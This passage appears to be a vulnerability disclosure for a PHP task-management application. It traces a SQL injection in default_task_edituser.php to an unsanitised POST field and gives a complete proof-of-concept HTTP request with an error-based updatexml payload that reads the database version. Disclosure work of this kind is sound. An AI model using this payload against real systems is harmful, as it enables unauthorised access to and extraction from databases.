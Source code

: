 The current user is obtained by injection as root@localhost.

**[2]SQL Injection Vulnerability**

The vulnerable file is default_task_edituser.php.

The system can filter requests by default only after calling the GetSQLValueString function.

In the default_task_edituser.php file:

![6.png](./img/6.png)

Line 5 restricts the user to one of "Guest" / "Ordinary User" / "Project Manager" / "Administrator".

![7.png](./img/7.png)

Line 20 directly puts ```$_POST['csa_to_user']``` into the database for query, resulting in injection.

Initiate a POST request to submit the following data:
```
POST /default_task_edituser.php HTTP/1.1
Host: 127.0.0.1:8002
Connection: keep-alive
Content-Length: 79
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8002
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.104 Safari/537.36 Core/1.53.4295.400 QQBrowser/9.7.12661.400
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://127.0.0.1:8002/default_user_edit.php?UID=2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=dob1mc5scckdktqjp6bif5dh64; csd=19

csa_to_user=1' and 1=(updatexml(1,concat(0x5e24,(select @@version),0x5e24),1))#
```
